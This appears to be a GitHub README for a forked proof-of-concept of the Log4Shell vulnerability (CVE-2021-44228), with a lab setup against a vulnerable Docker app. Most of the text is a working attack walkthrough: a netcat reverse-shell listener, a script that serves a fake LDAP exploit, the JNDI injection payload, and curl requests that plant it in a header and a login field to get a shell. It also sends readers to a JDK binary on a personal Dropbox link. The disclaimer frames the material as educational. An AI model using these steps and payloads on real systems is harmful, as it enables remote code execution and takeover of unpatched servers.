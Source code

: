 # log4j-shell-poc

Cribbed from the great https://github.com/kozmer/log4j-shell-poc !!  
![log4j-shell-poc](https://user-images.githubusercontent.com/4404271/157141049-9ce9dc50-5d8e-4794-84ca-7148825401e4.gif)


A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>

#### Usage :

You need 4 terminals, or 3 terminals and a web browser!  
They are as follows:  

1) attacker terminal 1 of 3 (wow!): reverse shell cc reciever
2) attacker terminal 2 of 3: ldap listener enabler man in the middle jumper
3) attacker terminal 3 of 3: just a terminal to do a curl or use a web browser
4) victim terminal 1 of 1: run java app as docker container

Step 1) In terminal 1, Start  netcat to accept reverse shell connection:  
```py
nc -lvnp 9001
```

Step 2) In terminal 2, Launch the ldap listener jumper:  
**Note:** Must download jdk-8u202-linux-x64.tar.gz and extract to jdk1.8.0_202  

--> I have saved it to my personal dropbox here www dot dropbox dot com/   s/7c1d5y6naqcrdyh/jdk-8u202-linux-x64.tar.gz?dl=0  

Now run it like this:

```bash
pip install -r requirements.txt
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```
This script will setup the HTTP server (not sure what the http is for, but whatevs) and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.  

Step 3) Our vulnerable application  
```c
1: docker build -t log4j-shell-poc .
2: docker run --network host log4j-shell-poc
```
Step 4) Attack!  

```c
curl http://127.0.0.1:8080 -v  | grep session  
<snip>  
< HTTP/1.1 200 OK  
< Server: Apache-Coyote/1.1  
< Set-Cookie: JSESSIONID=2C4651F7F8F1FD3C73E544A7C5E3A600; Path=/; HttpOnly  
< Content-Type: text/html;charset=ISO-8859-1  
<snip>  
curl -v -A "\${jndi:ldap://localhost:1389/a}" -X POST -d uname="\${jndi:ldap://localhost:1389/a}" --cookie JSESSIONID=2C4651F7F8F1FD3C73E544A7C5E3A600 http://127.0.0.1:8080/login  
<snip>  
>  
* upload completely sent off: 37 out of 37 bytes  
```  

Step 5) Profit!!  

In terminal 1, type 'env' or 'whoami' and have a biscotti ... you earned it!  



Once it is running, you can access it on localhost:8080

Getting the Java version.
--------------------------------------
--> I have saved it to my personal dropbox here www dot dropbox dot com/   s/7c1d5y6naqcrdyh/jdk-8u202-linux-x64.tar.gz?dl=0  

At the time of creating the exploit we were unsure of exactly which versions of java work and which don't so chose to work with one of the earliest versions of java 8: `java-8u20`.

Oracle thankfully provides an archive for all previous java versions:<br>
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).<br>
Scroll down to `8u20` and download the appropriate files for your operating system and hardware.
![Screenshot from 2021-12-11 00-09-25](https://user-images.githubusercontent.com/46561460/145655967-b5808b9f-d919-476f-9cbc-ed9eaff51585.png)

**Note:** You do need to make an account to be able to download the package.


Disclaimer
----------
This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).

Our team will not aid, or endorse any use of this exploit for malicious activity, thus if you ask for help you may be required to provide us with proof that you either own the target service or you have permissions to pentest on it.

